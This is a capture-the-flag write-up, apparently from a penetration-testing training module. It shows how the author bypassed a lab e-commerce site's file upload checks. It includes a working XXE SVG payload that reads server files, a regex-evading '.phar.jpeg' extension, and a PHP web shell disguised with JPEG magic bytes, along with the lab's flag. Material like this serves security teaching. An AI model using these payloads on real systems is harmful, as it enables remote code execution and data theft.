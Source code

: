 You are contracted to perform a penetration test for a company's e-commerce web application. The web application is in its early stages, so you will only be testing any file upload forms you can find.

Try to utilize what you learned in this module to understand how the upload form works and how to bypass various validations in place (if any) to gain remote code execution on the back-end server.

---

## Extra Exercise

Try to note down the main security issues found with the web application and the necessary security measures to mitigate these issues and prevent further exploitation.


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206180714.png)

Let's take a look at the site:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206180859.png)

We got some sections that are interesting, the one I'm interested in the most is the contact us one, let's check it out:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206181239.png)

And there we are, we have an upload feature, let's use burp and check the request:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206182157.png)

We can `Do Intercept -> Response to this request`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206182227.png)

We need to erase the `CheckFile()` and change the `accept=`:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206182356.png)

Now we are able to upload any kind of file, without the need of it being an image file, let's test the next thing:

## SVG XML Upload
---


We can now test if its possible to enumerate resources in the back-end server using `.svg` files, let's upload a file with the following contents:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname"> ]>
<svg>&xxe;</svg>
```

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206183458.png)

If we decode the contents of it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206183516.png)

It works, we are able to upload a malicious svg file, let's read the contents of `/upload.php`:


```php
<?php
require_once('./common-functions.php');

// uploaded files directory
$target_dir = "./user_feedback_submissions/";

// rename before storing
$fileName = date('ymd') . '_' . basename($_FILES["uploadFile"]["name"]);
$target_file = $target_dir . $fileName;

// get content headers
$contentType = $_FILES['uploadFile']['type'];
$MIMEtype = mime_content_type($_FILES['uploadFile']['tmp_name']);

// blacklist test
if (preg_match('/.+\.ph(p|ps|tml)/', $fileName)) {
    echo "Extension not allowed";
    die();
}

// whitelist test
if (!preg_match('/^.+\.[a-z]{2,3}g$/', $fileName)) {
    echo "Only images are allowed";
    die();
}

// type test
foreach (array($contentType, $MIMEtype) as $type) {
    if (!preg_match('/image\/[a-z]{2,3}g/', $type)) {
        echo "Only images are allowed";
        die();
    }
}

// size test
if ($_FILES["uploadFile"]["size"] > 500000) {
    echo "File too large";
    die();
}

if (move_uploaded_file($_FILES["uploadFile"]["tmp_name"], $target_file)) {
    displayHTMLImage($target_file);
} else {
    echo "File failed to upload";
}

```

Now we are able to see the whitelist and the blacklist of the upload endpoint, we can analyze the code and figure out the way to upload our webshell:

```ad-important
- **Blacklist Check**: Blocks `.php`, `.phps`, `.phtml`.
    
- **Whitelist Regex**: Requires the filename to end with `.[2-3 letters]g` (e.g., `.jpg`, `.svg`).
- **MIME/Content-Type Check**: Must be `image/[a-z]{2,3}g` (e.g., `image/svg+xml`).
- Uploads directory
- Format of the file, it goes by date of upload.
```

Let's send an intruder attack in the following way:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206184336.png)

We were able to identify a valid extension: `.phar.jpeg`. Let's proceed.



With this on mind, we can do the following:

```ad-hint
1. Create a php webshell with the right mime-type to bypass the filters.
2. Create a file called `shell.phar.jpeg`.
3. Change the mime type of the file using hexeditor.
```


Let's do it, these are the contents of `shell.phar.jpeg`:

```
AAAA
<?php echo system($_GET["cmd"]);?>
```

Now, we need to change the `AAAA` contents using hexeditor:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206185029.png)

Let's replace them for the JPEG bytes: `FF D8 FF DB`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206185110.png)

Nice, now let's try uploading the file:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206185201.png)

It worked, let's check if the webshell works, in my case, the url would go like this:

```
http://94.237.54.42:58431/contact/user_feedback_submissions/250206_shell.phar.jpeg?cmd=id
```

If we check:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206185927.png)

We got it, let's send it to burp to be more comfortable, let's list the contents:

```
bin
boot
dev
etc
flag_2b8f1d2da162d8c44b3696a1dd8a91c9.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
var
```

We got our flag, let's read it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206190133.png)

Flag is:

```
HTB{m4573r1ng_upl04d_3xpl0174710n}
```


![](gitbook/cybersecurity/images/Pasted%252520image%25252020250206190210.png)

